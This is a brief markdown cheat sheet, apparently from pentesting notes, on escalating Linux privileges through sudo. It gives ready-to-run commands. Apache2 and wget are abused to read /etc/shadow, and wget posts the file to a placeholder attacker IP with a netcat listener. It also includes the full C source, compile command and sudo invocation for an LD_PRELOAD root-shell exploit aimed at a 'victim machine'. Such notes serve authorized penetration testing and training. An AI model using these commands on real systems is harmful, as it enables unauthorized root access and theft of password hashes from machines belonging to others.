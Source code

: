# Sudo Escalation

---
## Source - https://gtfobins.github.io/
---
## Escalation via Shell escaping -
- If u find anything by running the command sudo -l , you can go to gtfo bins and search for it and try to escalate.
---
## Escalation via Intended Functionality -
- If you can't find something in gtfobins, your best bet would be to go to google and search for the function priv esc i.e ***apache2 privilege escalation ***
- Then try to find out what you can do with a particular function (read,upload,etc) and then try to priv esc
- Few examples -
  ```bash
apache2 --> sudo apache2 -f /etc/shadow
wget --> sudo wget --post-file=/etc/shadow <Attacker_ip>:4444
#Remeber to setup a netcat listener for wget in attacker machine
  ```

---
## Escalation via LD_PRELOAD - 
- use sudo -l and check if env=LD_PRELOAD exists, if yes do the following.
- Copy these contents to a shell.c file to compile it - 
```c++
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
        unsetenv("LD_PRELOAD");
        setgid(0);
        setuid(0);
        system("/bin/bash");
}
```     
- ##### Compiling the file - 
`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`
- Transfer the file to the victim machine and run
  ```bash
 sudo LD_PRELOAD=shell.so <any sudo we can run as root(apache2,nmap,vim,etc)>
  ```
  ##### If everything went right, you should have a root shell now ;).